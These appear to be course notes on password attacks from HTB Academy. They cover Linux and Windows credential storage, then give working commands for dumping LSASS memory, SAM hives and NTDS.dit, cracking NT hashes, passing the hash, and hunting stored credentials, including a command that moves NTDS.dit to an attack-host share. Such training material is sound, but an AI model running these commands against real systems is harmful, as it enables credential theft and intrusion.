



# Password attacks

> Notes from [HTB Academy Password Attacks course](https://academy.hackthebox.com)

## Linux auth process

### Shadow file

- `/etc/shadow`

| `csbygb:`|`$y$j9T$3QSBB6CbHEu...SNIP...f8Ms:`|`18955:`|`0:`|`99999:`|`7:`|`:`|`:`|`:`|
|----|----|---|---|----|----|---|----|----|
|`<username>:`|`<encrypted password>:`|`<day of last change>:`|`<min age>:`|`<max age>:`|`<warning period>:`|`<inactivity period>:`|`<expiration date>:`|`<reserved field>`|

- Encryption of password in shadow

|`$ <id>`|`$ <salt>`|`$ <hashed>`|
|--------|----------|------------|
|`$ y`|`$ j9T`|`$ 3QSBB6CbHEu...SNIP...f8Ms`|

The type (id) is the cryptographic hash method used to encrypt the password. Many different cryptographic hash methods were used in the past and are still used by some systems today.  

|ID|Cryptographic Hash Algorithm|
|--|----------------------------|
|`$1$`|[MD5](https://en.wikipedia.org/wiki/MD5)|
|`$2a$`|[Blowfish](https://en.wikipedia.org/wiki/Blowfish_(cipher))|
|`$5$`|[SHA-256](https://en.wikipedia.org/wiki/SHA-2)|
|`$6$`|[SHA-512](https://en.wikipedia.org/wiki/SHA-2)|
|`$sha1$`|[SHA1crypt](https://en.wikipedia.org/wiki/SHA-1)|
|`$y$`|[Yescrypt](https://github.com/openwall/yescrypt)|
|`$gy$`|[Gost-yescrypt](https://www.openwall.com/lists/yescrypt/2019/06/30/1)|
|`$7$`|[Scrypt](https://en.wikipedia.org/wiki/Scrypt)|

The other two files are `/etc/passwd` and `/etc/group`. In the past, the encrypted password was stored together with the username in the `/etc/passwd` file, but this was increasingly recognized as a security problem because the file can be viewed by all users on the system and must be readable. The `/etc/shadow` file can only be read by the user root.  

### Passwd file

|`csbygb:`|`x:`|`1000:`|`1000:`|`,,,:`|`/home/csbygb:`|`/bin/bash`|
|---------|----|-------|-------|------|---------------|-----------|
|`<username>:`|`<password>:`|`<uid>:`|`<gid>:`|`<comment>:`|`<home directory>:`|`<cmd executed after logging in>`|

The `x` in the password field indicates that the encrypted password is in the `/etc/shadow` file. However, the redirection to the `/etc/shadow` file does not make the users on the system invulnerable because if the rights of this file are set incorrectly, the file can be manipulated so that the user root does not need to type a password to log in. Therefore, an empty field means that we can log in with the username without entering a password.  

## Windows auth process

The [Windows client authentication process](https://docs.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication) can oftentimes be more complicated than with Linux systems and consists of many different modules that perform the entire logon, retrieval, and verification processes. In addition, there are many different and complex authentication procedures on the Windows system, such as Kerberos authentication. The [Local Security Authority](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection) (LSA) is a protected subsystem that authenticates users and logs them into the local computer. In addition, the LSA maintains information about all aspects of local security on a computer. It also provides various services for translating between names and security IDs (SIDs).  

The security subsystem keeps track of the security policies and accounts that reside on a computer system. In the case of a Domain Controller, these policies and accounts apply to the domain where the Domain Controller is located. These policies and accounts are stored in Active Directory. In addition, the LSA subsystem provides services for checking access to objects, checking user permissions, and generating monitoring messages.  

  

Local interactive logon is performed by the interaction between the logon process ([WinLogon](https://www.microsoftpressstore.com/articles/article.aspx?p=2228450&seqNum=8)), the logon user interface process (LogonUI), the credential providers, LSASS, one or more authentication packages, and SAM or Active Directory. Authentication packages, in this case, are the Dynamic-Link Libraries (DLLs) that perform authentication checks. For example, for non-domain joined and interactive logins, the authentication package `Msv1_0.dll` is used.

Winlogon is a trusted process responsible for managing security-related user interactions. These include:

- Launching LogonUI to enter passwords at login
- Changing passwords
- Locking and unlocking the workstation

It relies on credential providers installed on the system to obtain a user's account name or password. Credential providers are COM objects that are located in DLLs.

Winlogon is the only process that intercepts login requests from the keyboard sent via an RPC message from Win32k.sys. Winlogon immediately launches the LogonUI application at logon to display the user interface for logon. After Winlogon obtains a user name and password from the credential providers, it calls LSASS to authenticate the user attempting to log in.

### LSASS

[Local Security Authority Subsystem Service](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service) (LSASS) is a collection of many modules and has access to all authentication processes that can be found in `%SystemRoot%\System32\Lsass.exe`. This service is responsible for the local system security policy, user authentication, and sending security audit logs to the Event log. In other words, it is the vault for Windows-based operating systems, and we can find a more detailed illustration of the LSASS architecture [here](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc961760(v=technet.10)?redirectedfrom=MSDN).

|Authentication Packages|Description|
|-----------------------|-----------|
|`Lsasrv.dll`|The LSA Server service both enforces security policies and acts as the security package manager for the LSA. The LSA contains the Negotiate function, which selects either the NTLM or Kerberos protocol after determining which protocol is to be successful.|
|`Msv1_0.dll`|Authentication package for local machine logons that don't require custom authentication.|
|`Samsrv.dll`|The Security Accounts Manager (SAM) stores local security accounts, enforces locally stored policies, and supports APIs.|
|`Kerberos.dll`|Security package loaded by the LSA for Kerberos-based authentication on a machine.|
|`Netlogon.dll`|Network-based logon service.|
|`Ntdsa.dll`|This library is used to create new records and folders in the Windows registry.|

Each interactive logon session creates a separate instance of the Winlogon service.  
The [Graphical Identification and Authentication](https://docs.microsoft.com/en-us/windows/win32/secauthn/gina) (GINA) architecture is loaded into the process area used by Winlogon, receives and processes the credentials, and invokes the authentication interfaces via the [LSALogonUser](https://docs.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsalogonuser) function.

#### Attacking LSASS

Upon initial logon, LSASS will:

- Cache credentials locally in memory
- Create access tokens
- Enforce security policies
- Write to Windows security log

##### Dumping LSASS Process Memory

- With Task Manager (requires GUI access)



> Image from HTB Academy

A file `lsass.DMP` will be in `C:\Users\loggedonusersdirectory\AppData\Local\Temp`

- With Rundll32.exe & Comsvcs.dll

Before issuing the command to create the dump file, we must determine what process ID (PID) is assigned to lsass.exe. This can be done from cmd or PowerShell:

- `tasklist /svc` from cmd
- `Get-Process lsass` from powershell
- `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full` lsass dump with powershell

#### Using Pypykatz to Extract Credentials

- Install pypykatz

```bash
mkdir pypykatz
python3 -m venv .
source bin/activate
pip install pypykatz
```

- `pypykatz lsa minidump /home/peter/Documents/lsass.dmp`

### SAM Database

The [Security Account Manager](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc756748(v=ws.10)?redirectedfrom=MSDN) (SAM) is a database file in Windows operating systems that stores users' passwords. It can be used to authenticate local and remote users. SAM uses cryptographic measures to prevent unauthenticated users from accessing the system. User passwords are stored in a hash format in a registry structure as either an LM hash or an NTLM hash. This file is located in `%SystemRoot%/system32/config/SAM` and is mounted on HKLM/SAM. SYSTEM level permissions are required to view it.

Windows systems can be assigned to either a workgroup or domain during setup. If the system has been assigned to a workgroup, it handles the SAM database locally and stores all existing users locally in this database. However, if the system has been joined to a domain, the Domain Controller (DC) must validate the credentials from the Active Directory database (ntds.dit), which is stored in `%SystemRoot%\ntds.dit`.

Microsoft introduced a security feature in Windows NT 4.0 to help improve the security of the SAM database against offline software cracking. This is the SYSKEY (syskey.exe) feature, which, when enabled, partially encrypts the hard disk copy of the SAM file so that the password hash values for all local accounts stored in the SAM are encrypted with a key.  

  

Credential Manager is a feature built-in to all Windows operating systems that allows users to save the credentials they use to access various network resources and websites. Saved credentials are stored based on user profiles in each user's Credential Locker. Credentials are encrypted and stored in `C:\Users\[Username]\AppData\Local\Microsoft\[Vault/Credentials]\`  

#### Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes.  

|Registry Hive|Description|
|-------------|-----------|
|hklm\sam|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|hklm\system|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|hklm\security|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|

We can create backups of these hives using the `reg.exe` utility.  

- `reg.exe save hklm\sam C:\sam.save`
- `reg.exe save hklm\system C:\system.save`
- `reg.exe save hklm\security C:\security.save`

#### Dumping Hashes with Impacket's secretsdump.py

- `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`

### Running Hashcat against NT hashes

- `sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt`

### Dumping LSA Secrets Remotely

- `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`

### Dumping SAM Remotely

- `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`

### NTDS

It is very common to come across network environments where Windows systems are joined to a Windows domain. This is common because it makes it easier for admins to manage all the systems owned by their respective organizations (centralized management). In these cases, the Windows systems will send all logon requests to Domain Controllers that belong to the same Active Directory forest. Each Domain Controller hosts a file called NTDS.dit that is kept synchronized across all Domain Controllers with the exception of [Read-Only Domain Controllers](https://docs.microsoft.com/en-us/windows/win32/ad/rodc-and-active-directory-schema). NTDS.dit is a database file that stores the data in Active Directory, including but not limited to:

- User accounts (username & password hash)
- Group accounts
- Computer accounts
- Group policy objects

## Attack Methods

### Dictionary Attacks

Dictionary attacks involve using a pre-generated list of words and phrases (known as a dictionary) to attempt to crack a password. This list of words and phrases is often acquired from various sources, such as publicly available dictionaries, leaked passwords, or even purchased from specialized companies. The dictionary is then used to generate a series of strings which are then used to compare against the hashed passwords. If a match is found, the password is cracked, providing an attacker access to the system and the data stored within it. This type of attack is highly effective. Therefore, it is essential to take the necessary steps to ensure that passwords are kept secure, such as using complex and unique passwords, regularly changing them, and using two-factor authentication.  

When we find ourselves in a scenario where a dictionary attack is a viable next step, we can benefit from trying to custom tailor our attack as much as possible. In this case, we can consider the organization we are working with to perform the engagement against and use searches on various social media websites and look for an employee directory on the company's website. Doing this can result in us gaining the names of employees that work at the organization. One of the first things a new employee will get is a username. Many organizations follow a naming convention when creating employee usernames. Here are some common conventions to consider:  

|Username Convention|Practical Example for Jane Jill Doe|
|-------------------|-----------------------------------|
|firstinitiallastname|jdoe|
|firstinitialmiddleinitiallastname|jjdoe|
|firstnamelastname|janedoe|
|firstname.lastname|jane.doe|
|lastname.firstname|doe.jane|
|nickname|doedoehacksstuff|

> A tip from MrB3n: We can often find the email structure by Googling the domain name, i.e., “@inlanefreight.com” and get some valid emails. From there, we can use a script to scrape various social media sites and mashup potential valid usernames. Some organizations try to obfuscate their usernames to prevent spraying, so they may alias their username like a907 (or something similar) back to joe.smith.  
> Sometimes you can use google dorks to search for “inlanefreight.com filetype:pdf” and find some valid usernames in the PDF properties if they were generated using a graphics editor. From there, you may be able to discern the username structure and potentially write a small script to create many possible combinations and then spray to see if any come back valid.  

- `./username-anarchy -i names.txt` convert a list of real names into common usernames formats.
- `NetExec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt` dictionnary attack with NetExec

### Capturing NTDS.dit

NTDS.dit file is stored at %systemroot$/ntds on the domain controllers in a forest.  
This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information.  

#### Creating Shadow Copy of C:

We can use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location. 

- `PS C:\> vssadmin CREATE SHADOW /For=C:`
- `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit` Copying NTDS.dit from the VSS
- `PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData` Transferring NTDS.dit to Attack Host

#### A Faster Method: Using cme to Capture NTDS.dit

- `NetExec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds` This command allows us to utilize VSS to quickly capture and dump the contents of the NTDS.dit file conveniently within our terminal session.

### Cracking Hashes & Gaining Credentials

- `sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt` Cracking a Single Hash with Hashcat
- `evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"` pass the hash with evil-winrm (more info about pass-the-hash attacks [here](../windows/pass-hash.md))

### Credential Hunting in Windows

> Here we assume that we have gained access to an IT admin's Windows 10 workstation through RDP.

#### Keyterms to search

- Passwords, Passphrases, Keys, Username, User account, Creds, Users, Passkeys, Passphrases, configuration, dbcredential, dbpassword, pwd, Login, Credentials.

#### Tools

- [Lazagne](https://github.com/AlessandroZ/LaZagne)  
  - `start lazagne.exe all` execute Lazagne and run all included modules. We can include the option -vv to study what it is doing in the background.  
- findstr
  - `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`

#### Other places to keep in mind

- Passwords in Group Policy in the SYSVOL share
- Passwords in scripts in the SYSVOL share
- Password in scripts on IT shares
- Passwords in web.config files on dev machines and IT shares
- unattend.xml
- Passwords in the AD user or computer description fields
- KeePass databases --> pull hash, crack and get loads of access.
- Found on user systems and shares
- Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint

### Brute Force Attacks

Brute force attacks involve attempting every conceivable combination of characters that could form a password. This is an extremely slow process, and using this method is typically only advisable if there are no other alternatives. It is also important to note that the longer and more complex the password, the more difficult it is to crack and the longer it will take to exhaust every combination. For this reason, it is highly recommended that passwords be at least 8 characters in length, with a combination of letters, numbers, and symbols.

### Rainbow Table Attacks

Rainbow table attacks involve using a pre-computed table of hashes and their corresponding plaintext passwords, which is a much faster method than a brute-force attack. However, this method is limited by the rainbow table size – the larger the table, the more passwords, and hashes it can store. Additionally, due to the nature of the attack, it is impossible to use rainbow tables to determine the plaintext of hashes not already included in the table. As a result, rainbow table attacks are only effective against hashes already present in the table, making the larger the table, the more successful the attack.

## Resources

- [Linux User Auth](https://tldp.org/HOWTO/pdf/User-Authentication-HOWTO.pdf)
- [Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)
- [Passwords, Hashes and wordlist tools](https://csbygb.gitbook.io/pentips/tools/passwords-tools)  
- [Username Anarchy](https://github.com/urbanadventurer/username-anarchy)